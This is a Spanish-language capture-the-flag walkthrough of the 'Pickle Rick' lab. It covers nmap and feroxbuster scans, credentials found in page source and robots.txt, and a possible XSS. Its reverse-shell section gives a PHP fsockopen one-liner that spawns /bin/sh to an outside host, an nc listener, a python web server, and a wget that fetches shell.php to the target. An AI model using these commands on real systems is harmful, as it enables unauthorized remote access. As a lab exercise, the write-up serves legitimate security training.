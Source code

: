 # 27 - Pickle Rick

## Objetivos

## Procesos

### Escanear puertos

```
nmap <ip> -A -T4 -p <puertos_a_escanear> -oX <output.xml>
```

```
nmap 10.10.156.68 -A -T4 -p 22,80 -oX pickleR.xml
```

### Fuzzeo

```
feroxbuster -u <URL> -t <THREADS> -L <SCAN_LIMIT> -n <NO_RECURSION> -w <WORD_LIST> -o <OUTPUT>
```

```
feroxbuster -u http://10.10.156.68:80 -t 5 -L 5 -n -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o feroxBPickleR.txt
```

### Pagina web

- Inspeccionar codigo

R1ckRul3s

- `/robots.txt`

Wubbalubbadubdub

#### `/portal.php`

Posible XSS

### Reverse Shell

Ver que la página esta hecha en PHP a traves de Wappalizer (extension) buscar reverse sheel en [internal all the things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php).

```
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

Cargar reverse shell:

1. Escuchar en un puerto

```
nc -nvlp 8085
```

2. Cargar script anterior en los comentarios de `/portal.php`:

3. Escalada de privilegios

4. Levantar servidor python:

   ```
   python3 -m http.server 80
   ```

5. Conectarme al servidor desde la máquina objetivo

   ```
   wget http://10.21.104.33/shell.php
   ```
